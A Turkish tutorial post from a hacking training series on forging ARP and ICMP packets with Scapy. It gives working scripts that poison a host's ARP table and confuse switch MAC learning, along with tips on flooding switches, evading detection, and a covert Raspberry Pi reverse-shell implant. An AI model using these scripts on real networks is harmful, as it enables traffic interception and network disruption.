








# **Network Hacker 0x02 - Ağ Protokollerine Fısılda /w Barkın Kılıç**  

Eğitim serisinin [2. videosunu](https://www.twitch.tv/videos/645094492) yazılı hale getirmeye çalışacağım. Keyifli okumalar dilerim.  

## **0x00 : Giriş**
Bir önceki eğitimde, ağ içerisindeki haberleşme süreçlerini incelemiştik. ARP protokolü üzerinden bir mesaj paketi oluşturup karşı tarafa gönderiyor ve gelen cevapları analiz ediyorduk. Bu işlemleri bir Python betiği ile otomatikleştirmiştik.  


## **0x01 : Topoloji Üzerinden ARP-1 Betiği İncelemesi**



```python
from scapy.all import * 

ether_header = Ether(src="00:11:22:33:66:99", dst="ff:ff:ff:ff:ff:ff")
arp_header = ARP(hwsrc="00:11:22:33:66:99", psrc="10.0.40.67", hwdst="00:00:00:00:00:00", pdst="10.0.40.3", op=1)
packet = ether_header / arp_header
ls(packet)
sendp(packet) 
``` 

**`Ether` Başlığı:**  
  - **`src:`** Kaynak MAC adresi (sahte bir MAC adresi).  
  - **`dst:`** Broadcast adresi (`ff:ff:ff:ff:ff:ff`) ile tüm cihazlara gönderiliyor.  


**`ARP` Başlığı:**  
  - **`hwsrc:`** Sahte MAC adresi.  
  - **`psrc:`** Sahte IP adresi (`10.0.40.67`).  
  - **`hwdst:`** Hedefin fiziksel adresi (bilinmediği için `00:00:00:00:00:00`).  
  - **`pdst:`** Hedef IP adresi (`10.0.40.3`).  
  - **`op=1:`** Bu bir ARP Request paketidir.  


Hedef cihazın MAC adresi gibi detayları öğrenmek amacıyla bir ARP isteği gönderir. **Wireshark** üzerinde paket analizini incelediğimizde Switch ve Windows cihazları gönderilen IP ve MAC adreslerini ARP tablolarına kaydeder. Ancak bu adresler, gerçekte var olmayan sahte bilgiler içerir.  


## **0x02 : Manipülasyon**  

```python
from scapy.all import *  

ether_header = Ether(src="00:11:22:33:66:34", dst="ff:ff:ff:ff:ff:ff")  
arp_header = ARP(hwsrc="00:11:22:33:66:67", psrc="10.0.40.68", hwdst="00:00:00:00:00:00", pdst="10.0.40.3", op=1)  
packet = ether_header / arp_header  
ls(packet)  
sendp(packet)  
```  

**Switch ve Windows cihazları**, başlıklardaki farklı değerleri farklı şekilde yorumlar.  
  - **Switch:** Ethernet başlığındaki `00:11:22:33:66:34` MAC adresini kaydeder.  
  - **Windows:** ARP başlığındaki `00:11:22:33:66:67` MAC adresini kaydeder.  


Bunun sebebi windows makine cevap verirken 10.0.40.68 ip'sine ait 00:11:22:33:66:67 mac adresine cevap veriyor ancak switchin arp tablosunda bu ip'ye tanımlı mac adresi 00:11:22:33:66:34 olarak belirlenmiş durumda bu sebepten 00:11:22:33:66:67 mac adresini bulamayarak ağdaki bütün cihazlara broadcast yapıyor. Switch'in kafasını karıştırmış olduk. 

## **0x03 : Opcode Değişikliği**

```python
from scapy.all import * 

ether_header = Ether(src="00:11:22:33:44:83", dst="ff:ff:ff:ff:ff:ff")
arp_header = ARP(hwsrc="00:11:22:33:44:83", psrc="10.0.40.83", hwdst="00:00:00:00:00:00", pdst="10.0.40.3", op=2)
packet = ether_header / arp_header
ls(packet)
sendp(packet) 
``` 
**`op=2`:** Bir ARP Reply paketidir. Hedef cihaza, daha önce sorulmamış olsa bile doğrudan yanıt verir.  





Direkt olarak cevap verildiği görülür. Ancak hedef sistemde, 10.0.40.83 IP adresine ait bir kayıt oluşturulmaz.  

**Peki ne işe yarıyor?**

Daha önce var olan bir IP adresine ait fiziksel adresi değiştirebiliriz:  

```python
from scapy.all import * 

ether_header = Ether(src="00:11:22:33:44:83", dst="ff:ff:ff:ff:ff:ff")
arp_header = ARP(hwsrc="00:11:22:33:44:83", psrc="10.0.40.67", hwdst="00:00:00:00:00:00", pdst="10.0.40.3", op=2)
packet = ether_header / arp_header
ls(packet)
sendp(packet) 
``` 
Betiği yeniden çalıştırıp gönderelim ve Windows sistemimize dönüp arp tablosuna bakalım. 



Windows cihazında `10.0.40.67` IP adresine ait MAC adresinin değiştirildiği gözlemlenir.  

## **Özetle** 
**`op=1` (Request):** Yeni bir kayıt oluşturabiliriz.  
**`op=2` (Reply):** Mevcut bir kaydı değiştirebiliriz.  
Bu yöntemlerle ağ üzerindeki cihazların ARP tablolarını manipüle ederek, karar mekanizmalarına müdahale edebiliriz.  

> Unutmayın: Saldırganın başlangıçta herhangi bir fiziksel adresi veya IP adresi yoktu. Ancak sahte bilgilerle ağı manipüle edebildi.  


## **0x04: Saldırı Vektörünün Düşünülmesi**

### Switch'in ram'ini doldurarak işlevsiz hale getirebilir miyiz?
Switch'in ARP tablosunu doldurmak için sahte ARP request ve reply paketleri gönderebiliriz. 
1 milyon sahte IP için ARP sorgusu ve cevabı gönderildiğinde switch’in RAM’i dolacak ve **hub** gibi çalışmaya başlayacaktır.
Bu durumda switch, hedeflenen trafiği yalnızca bir porta değil, tüm bağlı cihazlara yönlendirecek ve ağ dinleme (sniffing) mümkün hale gelecektir.


## **0x05 : Katman 2'den yukarıya çıkalım**




### ICMP (Internet Control Message Protocol) Kullanımı
**ICMP**, ağ trafiğinde kontrol ve hata raporlaması için kullanılan 3. katman protokolüdür.
**Ping** gibi araçlar ICMP'yi kullanarak sistemin erişilebilir olup olmadığını kontrol eder.

```python
from scapy.all import * 

ether_header = Ether(src="00:11:22:33:66:00", dst="00:0c:29:18:3b:16")
ip_header = IP(dst = "10.0.40.3", src = "10.0.40.167", ttl=2)
icmp_header =  ICMP(type = 8, code = 0)
packet = ether_header / ip_header / icmp_header
ls(packet)
sendp(packet) 
```
Bu betikte rastgele bir kaynak IP ve MAC adresi kullanılarak bir ICMP paket gönderiliyor.

**Type=8** → Echo request (ping atılıyor).

Windows makinesi, kaynağın MAC adresini çözmek için broadcast yapmaya başlar.
Hedefin ARP tablosunda geçerli bir kayıt varsa, echo reply dönecektir.


Echo request karşı tarafa gidiyor ancak reply dönmedi onun yerine 10.0.40.167 cihazı fiziki adresini çözmek adına broadcast üretmeye başlıyor. 3. Konudan bağımsız cihazda da bu broadcasti görebiliriz. 

Peki windows makinenin arp tablosuna 10.0.40.167'ye ait bir kayıt eklesek çalışır mı?



Arp ile ekleyebildiğimizi fark ettik
Bu sefer echo request gidecek echo reply dönecek. Saldırgan alt katmanda kendi oluşturarak altyapısını kurdu ve sonrasında bu katmanda kullanabileceği hazırlamış olduğu yapıyı network içerisinden sağlamış oldu 3. cihaz habersiz sistem bu mesajı göremedi switch düzgün çalıştığı için.

Şimdi swithci manipüle edelim:

#### **Broadcast ICMP Örneği**
```python
from scapy.all import * 

ether_header = Ether(src="99:99:99:99:99:00", dst="ff:ff:ff:ff:ff:ff")
ip_header = IP(dst="10.0.40.3", src="10.0.40.100", ttl=3)
icmp_header = ICMP(type=8, code=0)
packet = ether_header / ip_header / icmp_header
ls(packet)
sendp(packet) 
```

Bu betik ile ICMP paketini broadcast olarak gönderir.
Kaynak MAC ve IP değerleri sahte olarak belirlenmiştir.
Switch bu paketleri farklı yorumlar ve broadcast nedeniyle ağdaki tüm cihazlara yayar.
**Switch’in ARP tablosunun manipüle edilmesi**, cihazların yanıt davranışlarını etkiler.
**hwsrc** değerlerini değiştirerek switch ve hedef cihazın farklı yorumlamasını sağlayabiliriz.

## **0x06 : Özet**


### Genel Durum

Saldırgan, boş bir kabloyu switche takıyor. Switch, şu an yalnızca elektrik sinyalinin varlığından haberdar; herhangi bir MAC ya da IP adresi ayarlanmamış durumda. Bu noktada, **Scapy** ile kendi paketlerimizi oluşturup hedef sistemlere müdahalede bulunacağız.

### Geçerli İşleyiş (Beyaz Yazılı Kısım)

- İlk olarak, bir ARP Request paketi oluşturuyoruz. ARP protokolü, fiziksel adresleri tanımlamak için kullanılır ve genellikle `ff:ff:ff:ff:ff:ff` ile belirtilir. 
- Broadcast yapılarak paket tüm ağdaki cihazlara iletilir. Saldırgan switche bağlı olduğu için bu yayın tüm ağı etkiler.
- ARP Request içindeki IP adresine sahip cihaz, paketi yanıtlar. Örneğin, `IP=2` olan bir cihaz soruluyor.
- Kaynak (`src`) alanına bir değer koyarız, diyelim ki `src=x`. Hedef sistem, bu `x` değerini kendi ARP tablosuna ekler.
- Switch, paketteki Ethernet başlığı (src) kısmındaki kaynağı kullanarak kendi MAC tablosunu günceller. Ancak hedef sistem, yalnızca gelen broadcast paketinden haberdardır.

### Manipülasyon (Kırmızı Yazılı Kısım)

- ARP başlığındaki değer ile Ethernet başlığındaki değerler farklı olursa ya da bu iki başlık arasında bilinçli bir tutarsızlık yaratılırsa switch’in çalışma mantığı bozulur.
- Switch, cevabı hedef sistem yerine herkese iletebilir. Bu durumda, sanki sistemin MAC adresine sahipmiş gibi görünerek cevapların size yönelmesini sağlayabilirsiniz.
- Sızma testi sırasında switch üzerinden ağı gözlemler, IP ve MAC adreslerini analiz edersiniz.
- Hedef seçtikten sonra switch’in anahtarlama işlemini karıştırarak, üst katmandaki IP protokolünde paket trafiğini gözlemleyebilirsiniz.
- Bu işlem **MITM (Man-in-the-Middle)** saldırısı ile karıştırılmamalı. Trafiğin ortasına girip müdahale etmek yerine mevcut trafik akışını gözlemlemek için manipülasyon yapıyoruz.

### Gerçek Hayat

- İç ağda mümkün olduğunca sessiz kalmalı ve sahte paketler üretmelisin. Bir switch, hedef sistemin trafiğini sizinle paylaşabilir.
- Otomatik toollar ile bu süreci gerçekleştirdiğinde sürekli olarak bir iz bırakmış oluyorsun. Toollar yoğun bir paket oluşturuyor genelde macchanger ile mac değiştir ettercap ile araya girdin arp tablosunu zehirledin diyelim. Wiresharkla incelediğinde bütün bu süreci fark edeceksin. Ancak bizim yaptığımıza nazaran çok fazla paket trafiği göreceksin bu da senin yakalanmana yol açacak. Kendi toolunu yazarak bu işi yaptırabilirsin.  
- Örneğin, bir Raspberry Pi üzerine GSM modülü takıp fiziksel olarak bir binanın ağına erişim sağlayabilirsiniz. Raspberry Pi, cloud üzerindeki makinenizle reverse shell bağlantısı kurar. Böylece sessiz bir şekilde ağa bağlanıp sniffing işlemleri yapabilirsiniz. 
